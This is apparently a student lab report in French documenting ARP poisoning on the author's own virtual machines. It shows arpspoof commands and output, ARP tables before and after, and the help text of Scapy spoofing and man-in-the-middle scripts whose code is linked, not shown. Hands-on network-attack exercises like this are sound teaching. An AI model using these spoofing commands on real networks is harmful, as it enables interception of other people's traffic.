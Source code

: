 # Partie IV : ARP Poisoning

## 1. Simple ARP spoof

- Table ARP de `node2.tp1.my`
```
[vm-2@node2 ~]$ ip n s
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 DELAY 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.253 dev enp1s0 lladdr 52:54:00:ad:a7:59 STALE 
```

- Début de l'ARP Poisoning pour associer l'address MAC de `node1.tp1.my` à l'IP de `dhcp.tp1.my`
```
[vm-1@node1 ~]$ sudo arpspoof -t 10.1.1.101 10.1.1.253
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
```

- Résulat sur la table ARP de `node2.tp1.my`, on remarque que l'address MAC pour 10.1.1.100 (`node1`) et 10.1.1.253 (`dhcp`) est la même !
```
[vm-2@node2 ~]$ ip n s
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 DELAY 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.253 dev enp1s0 lladdr 52:54:00:2d:8b:c8 REACHABLE 
```
- 🦈 le [pcap](./pcaps/arp_spoof_1.pcap)  
On remarque que `node1` spam de réponse ARP `node2` (sans changer la MAC src de la trame qui reste celle de `node1` d'ailleurs).  
Lorsque l'on stop la commande `arpspoof`, on remarque que `node1` effectue une dernière vague de spam pour fournir la vrai address MAC associé à l'IP de `dhcp`


## 2. Avec Scapy

- Le [script](./arp_spoof.py), avec une gestion d'argument
```
sudo python3 arp_spoof.py --help

usage: arp_spoof.py [-h] [--my-MAC MY_MAC] [--target-IP TARGET_IP] [--target-MAC TARGET_MAC] [--spoofed-IP SPOOFED_IP]

Script avec des variables configurables.

options:
  -h, --help            show this help message and exit
  --my-MAC MY_MAC       Votre adresse MAC (par défaut: 52:54:00:2d:8b:c8)
  --target-IP TARGET_IP
                        Adresse IP cible (par défaut: 10.1.1.101)
  --target-MAC TARGET_MAC
                        Adresse MAC cible (par défaut: 52:54:00:7b:ae:9d)
  --spoofed-IP SPOOFED_IP
                        Adresse IP usurpée (par défaut: 10.1.1.253)
```
=> Execution du script (les paramètres par défault match mon infra)
```
sudo python3 arp_spoof.py
```

- Table ARP de `node2` :
=> Avant :
```
[vm-2@node2 ~]$ ip n s
10.1.1.253 dev enp1s0 lladdr 52:54:00:ad:a7:59 REACHABLE 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 REACHABLE 
```

=> Après :
```
[vm-2@node2 ~]$ ip n s
10.1.1.253 dev enp1s0 lladdr 52:54:00:2d:8b:c8 REACHABLE 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 REACHABLE 
```

- Le [pcap](./pcaps/arp_spoof_2.pcap) (ça spam fort)


## 3. Man in the middle

- Le nouveau [script](./scripts/arp_spoof_mit.py)
```
[vm-1@node1 ~]$ sudo python3 arp_spoof_mit.py --help
usage: arp_spoof_mit.py [-h] [--my-MAC MY_MAC]
                        [--target1-IP TARGET1_IP]
                        [--target1-MAC TARGET1_MAC]
                        [--target2-IP TARGET2_IP]
                        [--target2-MAC TARGET2_MAC]

Script avec des variables configurables.

optional arguments:
  -h, --help            show this help message and exit
  --my-MAC MY_MAC       Votre adresse MAC (par défaut:
                        52:54:00:2d:8b:c8)
  --target1-IP TARGET1_IP
                        Adresse IP cible numéro 1 (par défaut:
                        10.1.1.101)
  --target1-MAC TARGET1_MAC
                        Adresse MAC cible numéro 1 (par défaut:
                        52:54:00:7b:ae:9d)
  --target2-IP TARGET2_IP
                        Adresse IP cible numéro 2 (par défaut:
                        10.1.1.253)
  --target2-MAC TARGET2_MAC
                        Adresse MAC cible numéro 2 (par défaut:
                        52:54:00:ad:a7:59)
```
=> Exécution du script : `sudo python3 arp_spoof_mit.py`


- le 🦈 [pcap](./pcaps/arp_mitm_1.pcap)
=> j'ai mis un `sleep(2)` entre chaque envoie des trames ARP (pour faciliter la lecture)
=> On remarque bien que les 3 premiers pings (`node2` vers `dhcp`) est bien reçu et `node1` assure bien la transition
=> Idem pour les 3 autres pings (`dhcp` vers `node2`)